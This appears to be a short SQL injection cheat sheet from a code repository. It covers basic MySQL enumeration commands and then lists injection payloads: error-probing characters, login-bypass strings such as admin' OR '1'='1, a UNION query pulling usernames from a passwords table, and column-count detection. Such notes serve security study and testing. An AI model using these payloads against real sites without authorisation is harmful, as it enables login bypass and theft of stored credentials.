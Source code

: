 # SQLi

## MySQL Basics

### Connect to a MySQL Database
```zsh
mysql -u <user> -h <host> -P <port> -p<pass>
```
### Enumerate Databases
```MySQL
SHOW Databases;
```
```MySQL
USE <database>;
```
### Enumerate Tables
```MySQL
SHOW TABLES;
```

```MySQL
DESCRIBE <table>;
```

### Retrieve Data
```MySQL
SELECT * FROM <table>;
```
```MySQL
SELECT <column1>,<column2> FROM <table>;
```
```MySQL
SELECT <column1>,<column2> FROM <table> ORDER BY <column2>;
```
```MySQL
SELECT <column1>,<column2> FROM <table> WHERE <condition>;
```

## SQL Injection
### Check for errors with:
```MySQL
'
```
```MySQL
"
```
```MySQL
#
```
```MySQL
;
```
```MySQL
)
```

### Bypassing a Log in Portal
```MySQL
admin' OR '1'='1
```
```MySQL
admin'-- 
```

### Using a UNION Clause
Remove or add from "2, 3, 4" as needed because the columns need to be "even"
```MySQL
SELECT * from <table> where <column> = '1' UNION SELECT username, 2, 3, 4 from passwords-- '
```

### Detecting the number of Columns
```MySQL
' order by n-- 
```
where n is the max value that does not cause an error.


-or-

```MySQL
' UNION select 1,2,3-- 
```

